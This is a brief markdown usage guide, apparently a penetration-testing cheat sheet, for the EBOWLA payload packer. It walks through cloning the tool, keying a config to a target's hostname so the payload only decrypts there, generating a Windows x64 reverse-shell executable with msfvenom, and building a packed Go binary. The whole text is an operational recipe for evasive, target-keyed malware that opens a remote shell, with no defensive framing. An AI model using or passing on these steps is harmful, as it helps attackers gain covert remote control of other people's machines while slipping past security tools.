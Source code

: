 # EBOWLA usage

### Get EBOWLA

```git clone https://github.com/Genetic-Malware/Ebowla```

```cd Ebowla```

### edit generic.config:

change:

output_type = GO
payload_type = EXE

Set at least one environment variable (computername = hostname),
the name has to be exact, as Ebowla won't decrypt otherwise.

Make, as an example, a reverse shell payload with metersploit: 

```msfvenom -p windows/x64/shell_reverse_tcp LHOST= LPORT= -f exe -a x64 -o shell.exe```

```python2 ebowla.py shell.exe genetic.config```

```./build_x64_go.sh output/<outputfilefromfirststeps> <finalfilename>```

The finished, packed executable can be found in the **output** folder.
